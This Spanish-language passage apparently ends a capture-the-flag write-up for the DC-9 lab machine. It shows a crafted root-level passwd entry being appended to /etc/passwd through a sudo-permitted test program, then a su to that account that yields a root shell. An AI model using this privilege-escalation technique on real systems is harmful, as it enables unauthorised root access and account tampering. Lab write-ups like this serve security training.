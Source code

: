 Creamos un fichero con lo siguiente (user.txt)

```bash
user:$1$buZKpXN3$NPI6IUJkJTJKQTwGdqfyo1:0:0:user:/root:/bin/bash
```

Ejecutamos script

```bash
sudo /opt/devstuff/dist/test/test user.txt /etc/passwd
```

cambiamos al nuevo usuario como root

```html
fredf@dc-9:~$ su user
Password: 
root@dc-9:/home/fredf# whoami
root
```

![Untitled](DC-9%205a1a383f004f41a7b065312771f311ab/Untitled%2017.png)

Y eso es todo

Happy Hacking!

